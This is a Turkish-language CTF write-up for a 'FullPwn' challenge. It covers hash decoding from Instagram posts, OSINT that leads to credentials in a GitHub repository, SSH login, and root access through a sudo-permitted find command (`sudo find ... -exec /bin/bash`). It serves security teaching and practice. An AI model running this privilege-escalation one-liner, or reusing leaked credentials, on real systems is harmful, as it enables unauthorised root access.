



# CTF Write-Up: FullPwn

## Senaryo
Bu CTF senaryosunda, başlangıçta bir **Instagram hesabı** ve bir **IP adresi** verilmektedir.
Katılımcıların Instagram hesabında paylaşılan postlarda bulunan hashleri çözerek flagi elde etmeleri gerekmektedir.

---

## 1. Instagram Hesabı ve Hashlerin Çözülmesi

İlk adım olarak verilen **Instagram hesabına giriş yapılmalıdır**. Postlar arasında hashler bulunmaktadır. Bu hashlerin çözümleri aşağıdaki gibidir:

- **Morse Kodu (sky)**: `... -.- -.--` → **SKY**
- **MD5 (lab)**: `f9664ea1803311b35f81d07d8c9e072d` → **LAB**
- **SHA256 (harika)**: `6c12bdb955161113e8b04cdc20d975a8457949e0dada8cdbea38501affd4bb92` → **HARİKA**
- **SHA1 (SKYDAYS25{})**: `2cc5422cabe10c59571badcf0371ebb5c70e4532` → **SKYDAYS25{FLAG}**

---

## 2. Instagram Biyografisinden Github'a Erişim

Instagram biyografisinde bir **GitHub linki** bulunmaktadır. Bu link takip edilerek, içinde **kullanıcı adı ve şifre** bulunan bir dosya tespit edilmelidir.



---

## 3. SSH ile Sisteme Giriş

GitHub’dan elde edilen **kullanıcı adı** ve **şifre** kullanılarak, verilen **IP adresine SSH bağlantısı** gerçekleştirilmelidir.

```bash
ssh username@IP_ADRESİ
```

Bağlantı sağlandıktan sonra **user flag** elde edilecektir.



---

## 4. Privilege Escalation (Yetki Yükseltme)

Sisteme girdikten sonra, root yetkilerini almak için aşağıdaki adımlar takip edilmelidir.

### 4.1. Sudo Yetkilerini Kontrol Etme
```bash
sudo -l
```
Bu komut çalıştırıldığında **find** komutunun sudo yetkileri ile çalıştırılabileceği görülecektir.

### 4.2. SUID Bayrağı Olan Dosyaları Bulma
```bash
find / -type f -perm -4000
```
Bu komut, sistemde SUID (Set User ID) bitine sahip dosyaları listeler.

### 4.3. Find Komutunu Kullanarak Root Yetkisi Almak
```bash
sudo find / -type f -perm -4000 -exec /bin/bash \;
```
Bu komut, root yetkileriyle bash kabuğunu açarak root erişimi sağlamaktadır.



---

## 5. Root Flag'i Bulma
```bash
cat /root/root_flag.txt
```
Bu komut ile **root flag** elde edilir.


---

## Sonuç
Bu CTF, temel olarak **hash çözme, OSINT teknikleri, SSH erişimi ve privilege escalation (yetki yükseltme)** adımlarını içermektedir. Başarıyla tamamlayan katılımcılar, temel Linux yeteneklerini ve sızma testi tekniklerini öğrenmiş olacaklardır.

